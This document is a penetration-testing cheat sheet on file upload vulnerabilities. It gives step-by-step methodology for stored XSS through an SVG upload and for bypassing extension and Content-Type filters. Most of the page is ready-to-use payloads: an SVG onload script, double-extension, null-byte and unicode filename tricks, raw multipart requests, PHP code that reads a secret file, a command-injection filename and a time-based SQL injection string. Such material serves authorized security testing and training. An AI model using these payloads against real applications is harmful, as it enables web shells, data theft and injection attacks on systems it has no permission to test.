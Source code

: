 # Upload of Unexpected File Types

## Check List



## Cheat Sheet

### Methodology

#### Stored Cross-Site Scripting (Stored XSS) via SVG Upload

{% stepper %}
{% step %}
Login to Account
{% endstep %}

{% step %}
Access your account with valid credentials
{% endstep %}

{% step %}
Open Your Project
{% endstep %}

{% step %}
Navigate to the specific project you want to test
{% endstep %}

{% step %}
Go to the locate the avatar upload form
{% endstep %}

{% step %}
Attach PNG File with SVG Code and Upload a PNG file containing the SVG code

```xml
<?xml version="1.0" standalone="no"?><!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd"><svg onload="alert(1)" xmlns="http://www.w3.org/2000/svg"> <polygon id="triangle" points="0,0 0,50 50,0" fill="#009900" stroke="#004400"/> </svg>
```
{% endstep %}

{% step %}
Click forward the request and after creating the image, open it and Check if an alert dialog appears; if not, click the triangle again to confirm
{% endstep %}
{% endstepper %}

***

#### File Extension Filter Bypass

{% stepper %}
{% step %}
Check what are file extensions allowed in the web app. This depends on the type of backend server

`.php` ,`.html`, `.jsp`, `.svg`, `.asp`, `.aspx` ,`pHp`, `pHP5`, `PhAr`, `hTmL`, `etc` ,`.pht` ,`.phps` ,`.phar` ,`.phpt` ,`.pgif` ,`.phtml` ,`.phtm` ,`.inc`
{% endstep %}

{% step %}
#### Double-extension upload bypass

Try adding a valid extension before the execution extension `exploit.png.php or exploit.php.png`&#x20;
{% endstep %}

{% step %}
#### Trailing-extension upload bypass

Check adding a valid extension at the end `exploit.php/.jpg` ( app may save this as a .php file but recognizes as `.jpg`)
{% endstep %}

{% step %}
#### Encoding Bypass

Try encoding `exploit.php%0d%0a.jpg or exploit.jpg%0d%0a.php`
{% endstep %}

{% step %}
#### Null Byte Injection Bypass

Upload a file with a null byte injection `exploit.php%00.jpg or exploit.jpg%00.php`
{% endstep %}

{% step %}
#### Semicolon extension bypass

Add semicolons before the file extension `exploit.asp;.jpg`
{% endstep %}

{% step %}
#### Multibyte Unicode filename normalization bypass

Try using multibyte unicode characters, which may be converted to null bytes and dots after unicode conversion or normalization Sequences like xC0 x2E, xC4 xAE or xC0 xAE may be translated to x2E if the filename parsed as a UTF-8 string, but then converted to ASCII characters before being used in a path
{% endstep %}

{% step %}
#### Overlapping-extension bypass

Try positioning the prohibited string in such a way that removing it still leaves behind a valid file extension. For example, consider what happens if you strip .php from the following filename\
`exploit.p.phphp`
{% endstep %}

{% step %}
#### Filename-based XSS

Try to put the XSS payload in the name of the `filetest.jpg`,`test.jpg`
{% endstep %}

{% step %}
#### Filename-based command injection

Command Injection in the `filename e.g. ; sleep 10;`
{% endstep %}

{% step %}
#### Content-Type spoofing

Try to use extension as .html and change Content-Type to `html/text`

```http
------WebKitFormBoundary6IrxqgTfmnW0FkOZ
Content-Disposition: form-data; name="uploadimage"; 
filename="exploit.html"
Content-Type: html/text
```
{% endstep %}

{% step %}
#### Missing Content-Type upload bypass

Try to send the request with no Content-Type

```http
------WebKitFormBoundary6IrxqgTfmnW0FkOZ
Content-Disposition: form-data; name="uploadimage"; 
filename="exploit.html"


<code here>
```
{% endstep %}

{% step %}
#### Content-Type spoofing

Try to use extension as `.jpg/png` ( if app expects image only) but change Content-Type to `text/html`

```http
------WebKitFormBoundary6IrxqgTfmnW0FkOZ
Content-Disposition: form-data; name="uploadimage"; 
filename="exploit.jpg"
Content-Type: text/html
```
{% endstep %}

{% step %}
#### Extensionless upload + Content-Type spoofing

Try leaving extension blank and Content-Type `text/html`

```http
------WebKitFormBoundary6IrxqgTfmnW0FkOZ
Content-Disposition: form-data; name="uploadimage"; 
filename="file."
Content-Type: text/html
```
{% endstep %}

{% step %}
#### Extension-only upload + Content-Type spoofing

Try using the extension only&#x20;

```http
------WebKitFormBoundary6IrxqgTfmnW0FkOZ
Content-Disposition: form-data; name="uploadimage"; 
filename=".html"
Content-Type: image/png
```
{% endstep %}

{% step %}
#### Filename special-characters bypass

Try to use especial characters in the names

```http
------WebKitFormBoundary6IrxqgTfmnW0FkOZ
Content-Disposition: form-data; name="uploadimage";
filename="exploit.jpg#/?&=+.html"
Content-Type: image/jpeg
```
{% endstep %}

{% step %}
#### File Upload Manipulation

Try changing Content-Type\
When uploading, Content Type could be: Content-Type: `application/octet-stream` or Content-Type: `application/x-php` try replacing it with`image/jpeg/`,`image/jpg`, `image.png`, `image/gif`

```http
------WebKitFormBoundary6IrxqgTfmnW0FkOZ
Content-Disposition: form-data; name="avatar"; filename="exploit.php"
Content-Type: application/octet-stream

<?php echo file_get_contents('/home/carlos/secret'); ?>
```
{% endstep %}

{% step %}
### Unicode Bypass

Try to use Unicode

```http
Content-Disposition: form-data; name="uploadimage"; 
filename="exploit.jpg%u0025%u0030%u0039.php"
Content-Type: application/php

<?php echo file_get_contents('/home/carlos/secret'); ?>
```
{% endstep %}

{% step %}
#### Time-Based SQLi Payloads

```
poc.js'(select*from(select(sleep(20)))a)+'.extension
```
{% endstep %}
{% endstepper %}

***
